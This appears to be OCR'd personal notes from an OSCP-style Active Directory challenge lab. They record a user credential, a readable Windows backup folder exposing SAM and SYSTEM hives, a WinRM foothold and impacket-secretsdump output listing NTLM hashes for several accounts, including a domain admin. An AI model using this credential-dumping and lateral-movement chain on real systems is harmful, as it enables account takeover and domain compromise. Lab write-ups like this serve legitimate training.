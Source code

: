 ### ++ Approach 10.10.97.142 ++
#### Credentials
	* celia.almeda:e728ecbadfb02f51ce8eed753f3ff3fd

#### Services
	##### 22 SSH
		- 

### ++ Vulnerabilities ++

#### Vuln 1: Windows copy folder in C:\ readable for users with low privileges ++
	* With celia.almeda we can extract SAM and SYSTEM from C:\windows\old and dump credentials of tom_admin to move to DC01

### ++ System Interaction ++
#### Foothold as celia.almeda
	* Use WinRM and celia.almeda credentials to get a shell in MS02

#### AD Pwning
	* Abuse vuln 1 and get tom_admin creds, which is a DC admin


┌──(kali㉿kali)-[/Shared/…/Challenge-Labs/4-OSCP-A-2nd/Active-directory/resources]
└─$ impacket-secretsdump -sam SAM -system SYSTEM LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x8bca2f7ad576c856d79b7111806b533d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:acbb9b77c62fdd8fe5976148a933177a:::
tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc:::
Cheyanne.Adams:1002:aad3b435b51404eeaad3b435b51404ee:b3930e99899cb55b4aefef9a7021ffd0:::
David.Rhys:1003:aad3b435b51404eeaad3b435b51404ee:9ac088de348444c71dba2dca92127c11:::
Mark.Chetty:1004:aad3b435b51404eeaad3b435b51404ee:92903f280e5c5f3cab018bd91b94c771:::
[*] Cleaning up...